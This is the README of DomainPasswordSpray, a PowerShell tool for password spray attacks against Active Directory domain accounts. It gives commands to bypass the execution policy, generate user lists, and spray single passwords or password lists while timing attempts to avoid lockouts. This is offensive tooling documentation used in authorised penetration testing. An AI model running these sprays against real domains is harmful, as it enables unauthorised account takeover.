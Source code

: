 # DomainPasswordSpray
DomainPasswordSpray is a tool written in PowerShell to perform a password spray attack against users of a domain. By default it will automatically generate the userlist from the domain. BE VERY CAREFUL NOT TO LOCKOUT ACCOUNTS!

## Quick Start Guide
Open a PowerShell terminal from the Windows command line with 'powershell.exe -exec bypass'.

Type 'Import-Module Invoke-DomainPasswordSpray.ps1'.

The only option necessary to perform a password spray is either -Password for a single password or -PasswordList to attempt multiple sprays. When using the -PasswordList option Invoke-DomainPasswordSpray will attempt to gather the account lockout observation window from the domain and limit sprays to one per observation window to avoid locking out accounts.

The following command will automatically generate a list of users from the current user's domain and attempt to authenticate using each username and a password of Winter2016.
```PowerShell
Invoke-DomainPasswordSpray -Password Winter2016
```

The following command will use the userlist at users.txt and try to authenticate to the domain "domain-name" using each password in the passlist.txt file one at a time. It will automatically attempt to detect the domain's lockout observation window and restrict sprays to one attempt during each window. The results of the spray will be output to a file called sprayed-creds.txt
```PowerShell
Invoke-DomainPasswordSpray -UserList users.txt -Domain domain-name -PasswordList passlist.txt -OutFile sprayed-creds.txt
```

###Invoke-DomainPasswordSpray Options
```
UserList          - Optional UserList parameter. This will be generated automatically if not specified.
Password          - A single password that will be used to perform the password spray.
PasswordList      - A list of passwords one per line to use for the password spray (Be very careful not to lockout accounts).
OutFile           - A file to output the results to.
Domain            - A domain to spray against.

```
